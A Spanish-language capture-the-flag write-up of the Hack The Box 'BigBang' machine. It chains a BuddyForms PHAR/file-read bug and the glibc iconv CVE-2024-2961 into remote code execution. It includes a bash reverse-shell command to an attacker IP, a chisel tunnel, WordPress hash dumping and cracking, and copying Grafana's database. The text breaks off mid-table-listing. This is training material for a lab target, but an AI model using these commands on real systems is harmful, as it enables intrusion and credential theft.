






<h2 style="color: #9FEF00;"> Reconocimiento</h2>

Empezamos con los pasos básicos de reconocimiento:

```bash
┌──(kali㉿kali)-[~]                                                                           
└─$ ping -c 1 10.10.11.52                                                                     
PING 10.10.11.52 (10.10.11.52) 56(84) bytes of data.                                          
64 bytes from 10.10.11.52: icmp_seq=1 ttl=63 time=99.5 ms                                     
                                                                                              
--- 10.10.11.52 ping statistics ---                                                           
1 packets transmitted, 1 received, 0% packet loss, time 0ms                                   
rtt min/avg/max/mdev = 99.491/99.491/99.491/0.000 ms                                                 
```

```bash
┌──(kali㉿kali)-[~/labs-hack/bigbang]
└─$ ports=$(nmap -p- --open -sS -T5 -n -Pn 10.10.11.52 | awk '/^[0-9]+\/tcp/ {split($1,a,"/"); print a[1]}' | paste -sd,)

┌──(kali㉿kali)-[~/labs-hack/bigbang]
└─$ echo $ports
22,80
```

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang]                                                                                                                                          
└─$ nmap -p$ports 10.10.11.52 -sCV -v -oN bigbang_scan
<SNIP>

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d4:15:77:1e:82:2b:2f:f1:cc:96:c6:28:c1:86:6b:3f (ECDSA)
|_  256 6c:42:60:7b:ba:ba:67:24:0f:0c:ac:5d:be:92:0c:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://blog.bigbang.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: blog.bigbang.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 23:06
Completed NSE at 23:06, 0.00s elapsed
Initiating NSE at 23:06
Completed NSE at 23:06, 0.00s elapsed
Initiating NSE at 23:06
Completed NSE at 23:06, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang]
└─$ echo "10.10.11.52 blog.bigbang.htb" | sudo tee -a /etc/hosts  
[sudo] password for kali: 
10.10.11.52 blog.bigbang.htb
```

Bien, tenemos un sitio web, si entramos y empezamos a curiosear podremos ver que se trata de un sitio hecho con `wordpress`, que es un escaner sitios que usan wordpress para ver las configuraciones e información general que podrían ser útiles en un ejercicio de intrusión. 
Asi que podemos usar `wpscan`: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang]
└─$ wpscan -e ap --url http://blog.bigbang.htb 

<SNIP>

[+] buddyforms
 | Location: http://blog.bigbang.htb/wp-content/plugins/buddyforms/
 | Last Updated: 2025-02-27T23:01:00.000Z
 | [!] The version is out of date, the latest version is 2.8.17
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 2.7.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.bigbang.htb/wp-content/plugins/buddyforms/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed May 14 00:24:49 2025
[+] Requests Done: 4
[+] Cached Requests: 33
[+] Data Sent: 1.169 KB
[+] Data Received: 110.807 KB
[+] Memory used: 265.738 MB
[+] Elapsed time: 00:00:17
```

- -e: enumerate -ap: allpluggins
> tambien podríamos usar el modo agresivo --pluggins-detection=agressive


Bien, tenemos una versión desactualizada, veamos que encontramos en internet.
Nos encontramos con el siguiente [blog](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8) en el que se explica el CVE-2023–26326:

**Contexto y alcance**

* **Plugin afectado**: BuddyForms (un constructor de formularios “drag & drop” para WordPress).
* **Versiones vulnerables**: todas las versiones anteriores a la **2.7.8** ([Medium][1]).
* **CVSSv3**: 8.1 (Alta) — Vector **AV\:N/AC\:H/PR\:N/UI\:N/S\:U/C\:H/I\:H/A\:H** ([Medium][1]).

---

## 1. Descripción de la vulnerabilidad

La función vulnerable es `buddyforms_upload_image_from_url()` (en `includes/functions.php`), que:

1. **Acepta cualquier URL** en el parámetro `url` sin validación adicional.
2. Permite especificar tipos MIME arbitrarios vía `accepted_files`, burlando la comprobación de tipo.
3. Usa `getimagesize()` para determinar el tipo MIME, pero esta función sólo inspecciona cabeceras, por lo que un archivo no imagen puede pasar como válido.
4. Emplea `file_get_contents()` sin restricciones, lo que admite el uso del wrapper `phar://`. Las PHAR contienen metadatos en PHP serializado, los cuales se deserializan automáticamente al acceder al archivo ([Medium][1]).

---

## 2. Impacto

Un atacante **desconocido y sin autenticación** puede forzar al plugin a descargar y almacenar un archivo PHAR malicioso (camuflado como imagen). Al volver a solicitarlo usando `phar://`, PHP deserializa los metadatos del archivo, disparando cualquier método mágico (`__wakeup()`, `__destruct()`, etc.) presente en las clases del sistema, lo que puede derivar en **ejecución de código arbitrario** en el servidor ([Medium][1]).

---

## 3. Pasos de explotación

1. **Generar un PHAR malicioso** con un stub que comience con la cabecera de imagen `GIF89a` y metadata serializada de una clase atacante (gadget).
2. **Subir el PHAR** mediante `buddyforms_upload_image_from_url()`. El plugin lo guardará con extensión `.png` en la carpeta de uploads.
3. **Acceder al archivo** usando una URL del tipo `phar://../wp-content/uploads/.../evil.phar`. PHP deserializa la metadata y se ejecuta el payload.

> Tenable muestra un PoC completo en PHP donde se crea un PHAR con la clase `Evil` y un método `__wakeup()` que llama a `die()`, demostrando la deserialización ([Medium][1]).

Así que podemos abrir esto en burpsuite y subir el PHAR malicioso: 

Primero haceos una prueba: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ echo perroloco > test                                  
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ echo GIF89aperroloco > test2
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ file test*              
test:  ASCII text
test2: GIF image data, version 89a, 25968 x 29298
```

**Asì de facil podemos engañar al comando file** 
> podemos usar otros comandos como `binwalk`, `exiftool`, `xxd` o `hexdump` para una mejor comprobación en linux. 

Y los subimos al servidor: 



Aquí no acepta el fichero, pero si subimos el que contiene los magic bytes en el nombre: 





Funciona, ahora necesitamos encontrar la forma de leer ficheros del sistema objetivo.
El problema viene en las siguiente líneas de código: 
```bash
if ( ! empty( $url ) && ! empty( $file_id ) ) {
  $upload_dir             = wp_upload_dir();
  $image_url              = urldecode( $url );
  $image_data             = file_get_contents( $image_url ); // Get image data
  $image_data_information = getimagesize( $image_url );
  $image_mime_information = $image_data_information['mime'];
```

Por lo que no podemos acceder ya que el nombre de una ruta como `/etc/passwd` no contiene los magicbytes que necesitamos. Por lo que tenemos que usar la siguiente herramienta, una herramienta ofensiva para generar payloads de PHP que permiten leer archivos usando PHP wrappers, especialmente php://filter, en entornos donde hay restricción de funciones o limitaciones en la ejecución de código arbitrario.

La herramienta genera cadenas encadenadas de filtros que permiten:

- Codificar un archivo (por ejemplo, .php) usando una cadena de filtros que evite caracteres problemáticos.
- Bypassear restricciones de caracteres o WAFs que bloquean palabras clave como php, base64, filter, etc.
- Leer contenido protegido de archivos usando técnicas evasivas.

Imaginemos que encontramos un LFI: 

```bash
?page=php://filter/read=convert.base64-encode/resource=config.php
```

Pero el WAF bloquea base64, filter, o incluso php.
Entonces, con esta herramienta, podés generar versiones ofuscadas del wrapper, como:

```bash
?page=pHp:/%2fFilTer/read=conVert.base64-Encode/resource=config.php
``` 

O cadenas más complejas con múltiples filtros anidados para ofuscar aún más la intención, como:
```bash
php://filter/read=string.toupper|convert.base64-encode/resource=config.php
```
Asì que la descargamos y ejecutamos con lo que queremos ofuscar: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/php_filter_chain_generator]
└─$ git clone https://github.com/synacktiv/php_filter_chain_generator

┌──(kali㉿kali)-[~/labs-hack/bigbang/php_filter_chain_generator]
└─$ python3 php_filter_chain_generator.py --chain GIF89a
[+] The following gadget chain will generate the following code : GIF89a (base64 value: R0lGODlh)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Lo ponemos en nuestra petición y ya podremos ver el /etc/passwd: 





**Ahora tratamos de leer el fichero de configuración**, descubrimos que está en **../wp-config.php** 



Asì que es momento de buscar el RCE, nos encontramos con el siguiente [](https://blog.lexfo.fr/iconv-cve-2024-2961-p1.html) en el que básicamente explica lo sigiuente: 

**Descripción de la vulnerabilidad (CVE-2024-2961)**
En glibc existe desde el año 2000 un desbordamiento de búfer de 1 a 3 bytes en la función `iconv()` al convertir a la codificación **ISO-2022-CN-EXT**. Durante el procesamiento de ciertos caracteres (por ejemplo “劄”, “䂚”, “峛”, “湿”), el código emite secuencias de escape de 4 bytes sin verificar correctamente que queden al menos 4 bytes libres en el búfer de salida. Dos de los tres bloques encargados de escribir la secuencia omiten la comprobación de espacio, provocando un **out-of-bounds write** de 1–3 bytes con valores como `"$*H"` (24 2A 48), `"$+I"` (24 2B 49), etc. ([Lexfo Blog][1])

**Condiciones necesarias para explotar el bug**

1. Controlar la codificación de salida (`ISO-2022-CN-EXT`).
2. Inyectar caracteres “exóticos” en el flujo de entrada para forzar la emisión de la secuencia vulnerable.
3. Tener un búfer de salida con tamaño ajustado de manera que el overflow se sitúe justo al límite.

## Método de explotación en el motor PHP

PHP implementa filtros de flujo vía `php://filter`, que internamente usan `iconv()`. Aprovechando esto, el atacante convierte un simple “file read” en **RCE** mediante los siguientes pasos (tal como se detalla en el post de Lexfo):

1. **Creación de múltiples “buckets”**

   * El filtro `zlib.inflate` divide el contenido en búferes de 0x8000 bytes y crea un bucket por cada uno (más allá del único bucket predeterminado), permitiendo rociar el heap. ([Lexfo Blog][1])

2. **Redimensionado de buckets con `dechunk`**

   * Se usa el filtro `dechunk` (HTTP-chunked) para “inflar” cada bucket a tamaños específicos (por ejemplo 0x100 bytes), y luego hacerlos “desaparecer” o “aparecer” dinámicamente. Esto permite obtener chunks del tamaño preciso que caerán en la lista libre de tamaño 0x100.

3. **Corrupción de la lista libre (`FL[0x100]`)**

   * Con un **overflow de 1 byte** se modifica el LSB de un puntero en la lista libre de chunks de 0x100 bytes, desplazándolo +0x48.
   * Mediante asignaciones y liberaciones controladas de esos chunks, se consigue un **write-what-where**, es decir, escribir un puntero arbitrario en una dirección controlada.

4. **Pivote al hook de memoria de PHP**

   * Se aprovecha la estructura `zend_mm_heap` al tope del heap de PHP (identificable por su alineación y tamaño).
   * Mediante sucesivos write-what-where sobre los campos de `custom_heap` (equivalente a `__malloc_hook`), se reemplaza la función de free (`_free`) por `system()` y se activa `use_custom_heap`.

5. **Ejecución remota**

   * Con una llamada a `efree()` (free) sobre uno de los buckets, se invoca `system()` con un comando a elección, logrando **ejecución remota de código**.
   * El exploit completo cabe en un único payload GET (<1000 bytes) y se ejecuta en **3 peticiones** HTTP:

     1. Leer `/proc/self/maps` para ubicar el heap y la libc.
     2. Descargar la libc para hallar la dirección de `system()`.
     3. Enviar el payload con la cadena de filtros que desencadena el overflow y redirecciona el hook a `system()`.

### Impacto y alcance

* Funciona **desde PHP 7.0 (2015) hasta 8.3.7 (2024)**, cualquier aplicación PHP (WordPress, Laravel, Symfony, etc.).
* **100 % fiable** (el overflow controlado evita crashes).
* **Payload autocontenido** (<1000 bytes) que combina heap spraying, corrupción de listas libres y pivot a `system()`.
* Convierte viejos “file read” en acceso total al servidor.

Este sofisticado vector de ataque demuestra cómo un bug ancestral en glibc puede resurgir como RCE en el ecosistema PHP mediante encadenamiento de filtros.

> podemos generar un nuevo filtro, pero ahora con `wrapwrap`, cumple la misma función general que php_filter_chain_generator, pero lo hace de forma más avanzada y precisa, permitiéndote leer archivos byte por byte mediante encadenamientos extremos de filtros PHP, incluso cuando hay restricciones MUY agresivas. Pero no encontramos nada interesante tampoco.
> La 'a' es por si el WAF filtra algo con a, php, etc, en este caso podemo poner lo que queramos. 

Asì que nos descargamos el [exploit](https://github.com/ambionics/cnext-exploits) que indican en el artículo, instalamos los requerimientos, modificaoms el script para que funcione, y lanzamos una primera prueba para ver si funciona: 

```bash
┌──(.venv)─(kali㉿kali)-[~/labs-hack/bigbang/cnext-exploits]
└─$ python3 cnext-exploit.py http://blog.bigbang.htb/wp-admin/admin-ajax.php "id"
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7fca0b800040, 0x7fca0b600040, 0x7fca0a000040, 0x7fca07a00040, 0x7fca06c00040 (using first)

     EXPLOIT  SUCCESS
``` 

Ahora si ya podemos mandarnos una revershell: 

```bash
┌──(.venv)─(kali㉿kali)-[~/labs-hack/bigbang/cnext-exploits]
└─$ python3 cnext-exploit.py http://blog.bigbang.htb/wp-admin/admin-ajax.php "bash -c 'bash -i >& /dev/tcp/10.10.14.103/1337 0>&1'"
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7fca0b800040, 0x7fca0b600040, 0x7fca09e00040, 0x7fca07800040, 0x7fca06c00040 (using first)

     EXPLOIT  SUCCESS
```

Recibimos la shell y nos configuramos una terminal más interactiva: 

```bash 
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ script /dev/null -c bash 
</html/wordpress/wp-admin$ script /dev/null -c bash     
Script started, output log file is '/dev/null'.
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ 
zsh: suspended  rlwrap nc -lvnp 1337
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg             
[1]  + continued  rlwrap nc -lvnp 1337
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$
```


<h2 style="color: #9FEF00;"> Acceso Inicial. </h2>

Una vez dentro del sistema podemos empezar a curiosear, vemos que no disponemos de muchos comando, por cuestiones de seguridad imagino: 

```bash 
ww-data@8e3a72b5e980:/var/www/html/wordpress$ mysql
mysql
bash: mysql: command not found
```

Explorando opciones, encontré 2 muy interesantes, la primera es tunelizar el tráfico de mysql hacia nuestro host usando chisel: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]                                                     
└─$ cp /usr/local/bin/chisel .                                                                
                                                                                              
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]                                                     
└─$ ls                                                                                        
chisel  test  test2                                                                           
                                                                                              
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]                                                     
└─$ python3 -m http.server 8000                                                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

La ip del contenedor podemos verlo desde el fichero wp-config.php:

```bash 
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', 'wp_password' );

/** Database hostname */
define( 'DB_HOST', '172.17.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
``` 

Iniciamos la conexión: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ ./chisel server --reverse -p 8001
2025/05/14 21:18:06 server: Reverse tunnelling enabled
2025/05/14 21:18:06 server: Fingerprint BIH12OHqpbaWeIhFUi9a+wSU8yIIGdkhA66TzCi4mmE=
2025/05/14 21:18:06 server: Listening on http://0.0.0.0:8001
2025/05/14 21:18:10 server: session#1: tun: proxy#R:3306=>172.17.0.1:3306: Listening

# después en el contenedor: 

www-data@8e3a72b5e980:/var/tmp$ chmod +x chisel
chmod +x chisel
www-data@8e3a72b5e980:/var/tmp$ ./chisel client 10.10.14.103:8001 R:3306:172.17.0.1:3306
<sel client 10.10.14.103:8001 R:3306:172.17.0.1:3306
2025/05/15 01:18:13 client: Connecting to ws://10.10.14.103:8001
2025/05/15 01:18:14 client: Connected (Latency 104.234269ms)
```

Obtenemos el acceso: 
```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.109 sec)

MySQL [(none)]> use wordpress; 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MySQL [wordpress]> show tables; 
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.106 sec)

MySQL [wordpress]> SELECT * FROM wp_users; 
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url                | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
|  1 | root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 | root          | root@bigbang.htb     | http://blog.bigbang.htb | 2024-05-31 13:06:58 |                     |           0 | root            |
|  3 | shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ | shawking      | shawking@bigbang.htb |                         | 2024-06-01 10:39:55 |                     |           0 | Stephen Hawking |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
2 rows in set (0.116 sec)
```
Podemo crakear esto con hashcat

`$ hashcat hashes rockyou.txt --user`

si tenemos una pc potente, encontraremos que la contraseña es `quantumphysics`

Otra forma fue crear un fichero que hiciera la consulta dentro del contenedor: 
```bash 
<?php
if ($argc < 2) {
    die("Usage: php script.php \"SQL_QUERY\"\n");
}

$query = $argv[1];
$host = '172.17.0.1';
$user = 'wp_user';
$password = 'wp_password';
$database = 'wordpress'; // Change this if needed
$conn = new mysqli($host, $user, $password, $database);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error . "\n");
}

$result = $conn->query($query);
if ($result === false) {
    die("Query error: " . $conn->error . "\n");
}
if ($result instanceof mysqli_result) {
    while ($row = $result->fetch_assoc()) {
        echo json_encode($row, JSON_PRETTY_PRINT) . "\n";
    }
    $result->free();
} else {
    echo "Query executed successfully.\n";
}
$conn->close();
?>
```


Lo descargamos en el contenedor, y lo ejecutamos con la query que queremos: 
```bash
www-data@8e3a72b5e980:/var/tmp$ php query.php "use wordpress;"
php query.php "use wordpress;"
Query executed successfully.

www-data@8e3a72b5e980:/var/tmp$ php query.php "select user_login, user_pass, user_nicename from wp_users;"
<ser_login, user_pass, user_nicename from wp_users;"
{
    "user_login": "root",
    "user_pass": "$P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1",
    "user_nicename": "root"
}
{
    "user_login": "shawking",
    "user_pass": "$P$Br7LUHG9NjNk6\/QSYm2chNHfxWdoK.\/",
    "user_nicename": "shawking"
}
``` 

Con todo esto, ya podemos conectarnos por ssh: 
```bash 
shawking@bigbang:~$ whoami
shawking
shawking@bigbang:~$ sudo -l
[sudo] password for shawking:
shawking@bigbang:~$ ls
snap  user.txt
```

Podemos ejecutar comando de reconocimiento como:

```bash 
hawking@bigbang:~$ ps -ef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           2       0  0 May14 ?        00:00:00 [kthreadd]
root           3       2  0 May14 ?        00:00:00  \_ [rcu_gp]

shawking@bigbang:~$ ss -lnpt
State                 Recv-Q                Send-Q                               Local Address:Port                                 Peer Address:Port                Process                
LISTEN                0                     4096                                    172.17.0.1:3306                                      0.0.0.0:*                                          
LISTEN                0                     128                                      127.0.0.1:9090                                      0.0.0.0:*                                          
LISTEN                0                     4096                                     127.0.0.1:3000                                      0.0.0.0:*                                          
LISTEN                0                     4096                                 127.0.0.53%lo:53                                        0.0.0.0:*                                          
LISTEN                0                     4096                                     127.0.0.1:42439                                     0.0.0.0:*                                          
LISTEN                0                     128                                        0.0.0.0:22                                        0.0.0.0:*                                          
LISTEN                0                     4096                                       0.0.0.0:80                                        0.0.0.0:*                                          
LISTEN                0                     128                                           [::]:22                                           [::]:*                                          
LISTEN                0                     4096                                          [::]:80                                           [::]:*
```
Inspeccionando los puertos que corren en el entorno local: 

```bash 
shawking@bigbang:~$ curl localhost:3000/login -v
<SNIP>
<!DOCTYPE html>
<html lang="en-US">
  <head>
    
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta name="viewport" content="width=device-width" />
    <meta name="theme-color" content="#000" />

    <title>Grafana</title>
```
Se trata de grafana, una aplicación de código abierto para la visualización de datos provenientes de diferentes fuentes, muy util en entornos de IT. 
Podemos buscar por aquí, vamos a `/opt/data', que es en donde se guardan los datos de esta aplicación. 

```bash 
shawking@bigbang:~$ ls -l /opt/data/
total 1000
drwxr--r-- 2 root root    4096 Jun  5  2024 csv
-rw-r--r-- 1 root root 1003520 May 15 03:42 grafana.db
```

Podemos leerlo, así que nos lo traemos a nuestra máquina atacante para analizarlo: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ sshpass -p 'quantumphysics' scp shawking@10.10.11.52:/opt/data/grafana.db .
```

Analizamos las tablas: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ sqlite3 grafana.db                                                         
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
alert                        library_element_connection 
alert_configuration          login_attempt              
alert_configuration_history  migration_log              
alert_image                  ngalert_configuration      
alert_instance               org                        
alert_notification           org_user                   
alert_notification_state     permission                 
alert_rule                   playlist                   
alert_rule_tag               playlist_item              
alert_rule_version           plugin_setting             
annotation                   preferences                
annotation_tag               provenance_type            
anon_device                  query_history              
api_key                      query_history_star         
builtin_role                 quota                      
cache_data                   role                       
cloud_migration              secrets                    
cloud_migration_run          seed_assignment            
correlation                  server_lock                
dashboard                    session                    
dashboard_acl                short_url                  
dashboard_provisioning       signing_key                
dashboard_public             sso_setting                
dashboard_snapshot           star                       
dashboard_tag                tag                        
